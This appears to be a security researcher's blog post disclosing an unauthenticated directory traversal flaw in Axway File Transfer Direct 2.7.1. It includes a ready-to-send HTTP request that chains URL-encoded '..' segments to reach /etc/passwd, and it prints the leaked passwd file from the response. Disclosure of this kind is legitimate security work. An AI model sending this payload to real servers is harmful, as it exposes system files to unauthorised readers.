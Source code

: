 ```yaml
---
layout: post
title:  "Directory Traversal in Axway File Transfer Direct"
date:   2019-01-20 19:51:02 +0700 
categories: [cve]
---
```


Vendor: Axway

Product: Axway File Transfer Direct

Version affected:  2.7.1

Axway is a software and services company registered in France with headquarters in Phoenix, Arizona. Established in 2001, Axway serves more than 11,000 organisations in 100 countries, with offices around the globe. Their award-winning products, solutions and services enable the business-critical transactions required to accelerate performance within and among enterprises - while providing management, security and governance on interactions throughout business networks.

#### Product description:

File Transfer Direct is an ad hoc file exchange solution that brings enterprise-class managed file transfer (MFT) capabilities to familiar email interfaces and web-based clients. File Transfer Direct transparently applies administrator-defined policies while adding the security and audit capabilities required for corporate governance and regulatory compliance.

#### Finding:

The unauthenticated Directory Traversal vulnerability can be exploited by issuing a specially crafted HTTP GET request utilizing a simple bypass, %2e%2e instead of (/),URL encoding.

Example:
{% highlight ruby %}

REQUEST:
GET /h2hdocumentation//%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd HTTP/1.1
Host: a.b.c.d
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
{% endhighlight %}

{% highlight ruby %}

RESPONSE:
HTTP/1.1 200 OK
Content-Type: text/html
Content-Length: 1713
Date: Tue, 23 Jan 2018 03:42:11 GMT
Connection: close

root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
news:x:9:13:news:/etc/news:
uucp:x:10:14:uucp:/var/spool/uucp:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
gopher:x:13:30:gopher:/var/gopher:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:99:99:Nobody:/:/sbin/nologin
nscd:x:28:28:NSCD Daemon:/:/sbin/nologin
vcsa:x:69:69:virtual console memory owner:/dev:/sbin/nologin
pcap:x:77:77::/var/arpwatch:/sbin/nologin
ntp:x:38:38::/etc/ntp:/sbin/nologin
dbus:x:81:81:System message bus:/:/sbin/nologin
rpc:x:32:32:Portmapper RPC user:/:/sbin/nologin
mailnull:x:47:47::/var/spool/mqueue:/sbin/nologin
smmsp:x:51:51::/var/spool/mqueue:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
rpcuser:x:29:29:RPC Service User:/var/lib/nfs:/sbin/nologin
nfsnobody:x:65534:65534:Anonymous NFS User:/var/lib/nfs:/sbin/nologin
haldaemon:x:68:68:HAL daemon:/:/sbin/nologin
clam:x:100:102:Clam Anti Virus Checker:/var/clamav:/sbin/nologin
nocpulse:x:101:103:NOCpulse user:/var/lib/nocpulse:/bin/bash
hpsmh:x:500:500::/opt/hp/hpsmh:/sbin/nologin
ftd:x:20230:20000:ftd:/home/ftd:/bin/bash
nrpe:*:20231:20231:nrpe:/home/nrpe:/sbin/nologin
tss:x:102:105:Account used by the trousers package to sandbox the tcsd daemon:/dev/null:/sbin/nologin
stunnel:x:20009:20011:user stunnel:/dev/null:/bin/false
_lldpd:x:103:501::/home/_lldpd:/bin/bash
{% endhighlight %}

#### References:
1. https://www.owasp.org/index.php/Path_Traversal
2. https://www.axway.com/
3. Axway File Transfer Direct - http://infosightsol.com/wordpress/wp-content/uploads/2012/11/Axway_Datasheet_File_Transfer_Direct_EN.pdf
